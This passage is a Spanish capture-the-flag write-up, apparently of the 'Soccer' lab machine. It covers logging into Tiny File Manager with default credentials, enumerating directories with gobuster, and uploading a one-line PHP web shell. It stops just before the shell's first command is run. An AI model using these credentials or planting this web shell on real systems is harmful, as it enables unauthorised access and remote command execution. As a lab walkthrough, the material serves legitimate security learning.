 
![Tiny]({{ 'assets/img/writeups/Soccer/tiny.png' | relative_url }}){: .center-image }

Nos encontramos ante un panel login donde pone arriba "Tiny File Manager". Puede que sea un programa existente con vulnerabilidades conocidas o credenciales por defecto, así que investigamos un poco.

```sh
> searchsploit tiny file manager

Tiny File Manager 2.4.6 - Remote Code Execution (RCE)        | php/webapps/50828.sh
```
Encuentro un RCE pero tiene que ser para esa versión y tengo que estar autenticado.

Buscaré credenciales por defecto de este servicio. Encuentro esto;  
Default username/password: **admin/admin@123** and user/12345.

Probando la segunda, user:12345 consigo entrar al panel.

![TinyDentro]({{ 'assets/img/writeups/Soccer/tinyDentro.png' | relative_url }}){: .center-image }

La versión, no se ve en la foto, pero está abajo a la derecha y es la **2.4.3**.

Aparte de las imagenes hay una carpea llamada tiny y dentro de ella la carpeta uploads. Así que deduzco que hay dos lugares donde se pueden llegar a subir archivos; en /var/www/html - si haces hoovering en el dibujo de la casa sale esa ruta - y en /var/www/html/tiny/uploads.

El exploit encontrado pertenece a una versión posterior y quizás pueda funcionar pero de momento voy a investigar por mi cuenta. Realizaré un fuzzing sobre este directorio tiny, estaría bien encontrar un recurso de subida de archivos.
```sh
> gobuster dir -u http://soccer.htb/tiny/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/tiny/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/07/03 10:17:46 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/uploads/]
Progress: 11302 / 441122 (58%)
```
Igual no puedo subir archivos porue me he logeado con el de user en vez de con el de admin.. que soy un espabilao. Salgo de la cuenta y pruebo a logearme con la otra credencial por defecto que encontré por internet: admin/admin@123

Ahora si que veo una opción de subida de archivos. Subo este archivo:
```php
<?php system($_REQUEST['cmd']); ?>
```
Me meto a la carpeta /tiny/uploads y le doy a upload desde ese punto, si lo subes en /var/www/html no funciona. Y ahora llamo al php y ejecuto comando:
